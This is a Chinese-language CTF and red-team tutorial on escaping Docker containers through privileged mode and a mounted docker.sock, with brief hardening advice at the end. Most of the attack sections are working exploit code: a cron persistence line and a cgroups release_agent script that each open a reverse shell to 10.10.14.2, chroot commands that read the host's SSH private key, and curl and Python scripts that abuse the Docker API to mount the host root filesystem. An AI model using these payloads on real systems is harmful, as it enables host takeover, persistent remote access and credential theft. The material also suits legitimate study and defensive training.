


# 🚪 Docker 容器逃逸两大核心绝杀：特权模式 (Privileged) 越狱与 Docker Socket 套接字挂载滥用

> **学习指南**：在 CTF 线下决赛（AWD）、高难度云原生 Web 题目以及真实企业红蓝对抗中，单纯拿到容器内的 WebShell 往往只是“上半场”。
> 真实的终极大 Flag、内网核心凭证乃至横向移动通道，都静静躺在底层的物理宿主机上！
> 本篇笔记将从 0 开始，**拆解两种在实战中出现频率最高的容器配置错误**：
> 1. 为什么一个简简单单的 `--privileged` 参数，会让攻击者在一行命令内挂载宿主机硬盘或触发内核回调逃逸？
> 2. 为什么挂载了一个看似不起眼的 `/var/run/docker.sock` 文件，就等于双手将宿主机的最高 Root 控制权奉送给黑客？

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、小白零基础扫盲：什么是“特权模式”与“Docker Socket”？

### 1. 特权模式（`--privileged`）：游乐园的“拆除所有围栏手环”

* **正常容器**：
  * Docker 官方为了安全，默认给容器戴上了“多重枷锁”：禁止容器访问底层硬盘设备（`/dev/sda`）、禁止操作内核参数、剥离了挂载磁盘的权限（无 `CAP_SYS_ADMIN`）。
* **特权容器（`docker run --privileged`）**：
  * 有些运维人员在部署某些监控或特殊程序时，觉得权限报错太烦，图省事随手加上了 `--privileged`。
  * **后果**：这个开关会**瞬间解除 Docker 所有的安全限制**！
  * 宿主机的真实物理硬件设备全部直接暴露在容器里，容器内的 `root` 几乎拥有了和宿主机 `root` 平起平坐的所有内核能力！

---

### 2. Docker Socket（`/var/run/docker.sock`）：Docker 守护进程的大脑专线

* **它是干什么的？**
  * 在 Linux 中，`docker.sock` 是 Docker 架构中的 **UNIX 域套接字（IPC 通信端点）**。
  * 你平时在命令行敲 `docker ps`、`docker run`、`docker stop`，其实底层根本不是直接执行程序，而是 **Docker 命令行客户端通过这个 `docker.sock`，向后台常驻的 Docker Daemon 守护进程发送标准的 HTTP REST API 请求！**
* **为什么开发人员要把这个文件挂载到容器里？**
  * 常见场景：**CI/CD 自动化流水线（如 Jenkins）**。Jenkins 容器需要在构建任务时，“自己打包并启动新的 Docker 镜像”；
  * 或者图形化容器管理面板（如 Portainer），需要在容器里监控和管理宿主机上的所有其他容器。
* **致命隐患**：
  * **Docker Daemon 守护进程是以宿主机最高的 `root` 权限在后台运行的！**
  * 一旦攻击者在容器内控制了这个 Socket 文件，就能以 Docker 大管家的身份下达指令：“**请帮我在宿主机上启动一个新容器，并把宿主机的根目录全盘挂载进去！**”



---

## 二、逃逸手法一：特权模式下直接挂载宿主机物理硬盘（最直接、最无解）

如果你在前期的环境探测中，发现当前容器属于 `--privileged` 特权容器，且 `/dev` 目录下存在物理硬盘设备：

```bash
ls -la /dev/sd* /dev/vd*
```
输出回显：
```text
brw-rw---- 1 root disk 8, 1 Oct 12 17:00 /dev/sda1
```

### 1. 一秒越狱四步法：
```bash
# 步骤 1: 在容器内创建一个临时挂载目录
mkdir /mnt/host_root

# 步骤 2: 将宿主机的真实物理系统分区直接挂载到该目录
mount /dev/sda1 /mnt/host_root

# 步骤 3: 切换根目录到宿主机文件系统 (chroot 越狱)
chroot /mnt/host_root /bin/bash

# 步骤 4: 验证权限与获取 Flag
cat /flag
cat /root/.ssh/id_rsa
```

#### 权限维持技巧（持久化 Root 权限）：
如果你退出了容器，如何让宿主机永久受控？
在挂载目录下，直接把你的公钥写入宿主机的 `authorized_keys`，或者直接写入一条定时任务：
```bash
echo "* * * * * bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" >> /mnt/host_root/var/spool/cron/crontabs/root
```
一分钟内宿主机直接向攻击者反弹真正的物理宿主机 Root Shell！

---

## 三、逃逸手法二：特权模式与 cgroups `release_agent` 内核回调逃逸

如果宿主机使用的不是单一物理磁盘（例如是在分布式云存储环境中，`/dev` 下没有明确的 `sda1` 设备），但当前容器拥有 `CAP_SYS_ADMIN`（特权容器必然包含），可以利用 **Linux 内核 cgroups v1 的清理机制**实施神级逃逸！



### 1. 自动化 Exploit 脚本逐行深度剖析

在容器内执行如下脚本：

```bash
#!/bin/sh
# 1. 创建并挂载一个独立的 cgroup 内存子系统
mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
mkdir -p /tmp/cgrp/x

# 2. 启用子系统的释放通知功能 (notify_on_release)
echo 1 > /tmp/cgrp/x/notify_on_release

# 3. 提取当前容器在宿主机上的物理绝对路径 (利用 /etc/mtab 或 overlay 挂载点)
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# 4. 在容器的根目录下创建包含反弹 Shell 的脚本
echo "#!/bin/sh" > /exp.sh
echo "bash -i >& /dev/tcp/10.10.14.2/9999 0>&1" >> /exp.sh
chmod +x /exp.sh

# 5. 关键绝杀：将该脚本在宿主机视角下的绝对路径写入 release_agent 配置文件！
echo "$host_path/exp.sh" > /tmp/cgrp/release_agent

# 6. 向该 cgroup 中写入一个临时子进程并让其立即退出，触发内核清理回调！
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

#### 为什么这个漏洞能逃逸？
* `release_agent` 是 Linux 内核自身的功能。
* 当内核发现控制组里最后一个进程死亡后，**是由宿主机的内核在最外层的根命名空间中亲自执行这个脚本的！**
* 没有任何 Namespace 能限制住操作系统内核本身，攻击者在容器内写入的文件，被宿主机内核直接以最高权限执行，完成绝杀！

---

## 四、逃逸手法三：危险挂载 `/var/run/docker.sock` 套接字逃逸

如果在容器内排查时，发现了如下套接字文件：
```bash
ls -la /var/run/docker.sock
# 回显: srw-rw---- 1 root 999 0 Oct 12 17:00 /var/run/docker.sock
```

### 1. 场景 A：容器内已预装 `docker` 命令行工具
直接调用宿主机的 Docker Daemon 创建一个新容器：
```bash
# 挂载宿主机根目录到新容器的 /host 路径，并自动 chroot 进入
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host
```

---

### 2. 场景 B：容器内没有 `docker` 命令（最常见：纯原生 `curl` 攻击）

很多最小化生产容器并没有安装 `docker` 客户端程序，如何纯手工利用？
别忘了：**Docker Socket 本质上就是一个本地 HTTP 服务器！利用 `curl --unix-socket` 直接向它发 REST API 请求即可！**

#### 步骤 1：查看宿主机上已下载缓存的本地镜像列表
```bash
curl --unix-socket /var/run/docker.sock http://localhost/images/json
```
* 从返回的 JSON 中挑选一个已存在的镜像名字（如 `alpine:latest` 或 `ubuntu:latest`）。

#### 步骤 2：调用 API 创建一个挂载了宿主机根目录的后门容器
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine:latest",
    "Cmd": ["/bin/sh", "-c", "chroot /host cat /flag > /host/tmp/flag.txt"],
    "Binds": ["/:/host"]
  }' \
  http://localhost/containers/create?name=pwn_container
```
* **参数深度拆解**：
  * `"Binds": ["/:/host"]`：**核心逃逸点！** 强制把宿主机的真正根目录 `/` 映射为新容器里的 `/host` 目录！
  * `"Cmd": ["chroot /host ..."]`：在新容器启动时，直接切换根目录并执行命令！
* 服务端返回创建成功的容器 ID（如 `{"Id":"9f8b7c6a..."}`）。

#### 步骤 3：调用 API 启动该容器
```bash
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/pwn_container/start
```

#### 步骤 4：提取结果
读取 `/host/tmp/flag.txt`，直接拿到真正的宿主机 Flag！

---

## 五、CTF 实战靶场案例复现（Jenkins 容器内 Docker Socket 逃逸夺旗）

### 靶场情境：CI/CD 自动化构建节点

* 题目背景：我们在一个受限制的 Jenkins 构建节点容器中拿到了 WebShell。
* 侦察发现：该容器负责打包 Docker 镜像，因此运维将宿主机的 `/var/run/docker.sock` 挂载了进来。
* 目标要求：夺取真正的物理宿主机 `/root/flag.txt`。

### 1. 验证套接字通信能力
```bash
curl --unix-socket /var/run/docker.sock http://localhost/version
```
返回宿主机 Docker 引擎详细版本号：`{"Platform":{"Name":"Docker Engine - Community"},"Version":"20.10.12"...}`，确认通信完好！

### 2. 编写轻量级 Python 逃逸脚本（利用 socket 库直连）
若容器内连 `curl` 都没有安装，直接利用 Python 原生标准库发包：

```python
import socket
import json

s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect('/var/run/docker.sock')

# 构造创建容器的 HTTP 请求体
body = json.dumps({
    "Image": "alpine",
    "Cmd": ["/bin/sh", "-c", "cat /host/root/flag.txt > /host/tmp/pwned.txt"],
    "Binds": ["/:/host"]
})

req = (
    "POST /containers/create?name=escape_box HTTP/1.1\r\n"
    "Host: localhost\r\n"
    "Content-Type: application/json\r\n"
    f"Content-Length: {len(body)}\r\n\r\n"
    f"{body}"
)

s.sendall(req.encode())
resp = s.recv(4096).decode()
print("[+] Create Container Resp:\n", resp)

# 启动容器
s2 = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s2.connect('/var/run/docker.sock')
s2.sendall(b"POST /containers/escape_box/start HTTP/1.1\r\nHost: localhost\r\n\r\n")
print("[+] Container started! Flag dumped to /tmp/pwned.txt")
```

### 3. 读取 Flag 与夺旗验证
```bash
cat /tmp/pwned.txt
# 回显输出：
# flag{d0ck3r_s0ck3t_m0unt_3sc4p3_r00t_pwnd!}
```
成功在没有物理机 SSH 凭据的情况下，借助 Docker Socket API 完成无缝越狱，直接接管物理主机！

---

## 六、安全加固规范与最佳实践

1. **坚决杜绝在容器内挂载 `/var/run/docker.sock`**：
   * 如果 CI/CD 流程中必须构建 Docker 镜像，绝不要使用 Docker-in-Docker 挂载宿主机套接字，必须改用 **Google 开源的无特权镜像构建工具 Kaniko**！Kaniko 纯粹在用户空间解析 Dockerfile，无需任何特权和套接字！
2. **彻底禁用 `--privileged` 特权模式**：
   在自动化部署流水线中设置 CI 静态检查规则，检测到 `privileged: true` 一律禁止合并代码。
3. **开启只读根文件系统（`--read-only`）**：
   即使攻击者拥有挂载能力，若无法在当前容器文件系统中写入脚本（如 `/exp.sh`），也能大幅提高漏洞利用门槛。

---

## 🔗 相关双向链接
- 上级模块：[[12-云原生与容器逃逸安全]]
- 前置基础：[[01-Linux容器底层基础：Namespace隔离、Cgroups限制与容器环境识别]]
- 进阶漏洞：[[03-经典容器逃逸与内核漏洞利用(runC逃逸与特权逃逸实战)]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
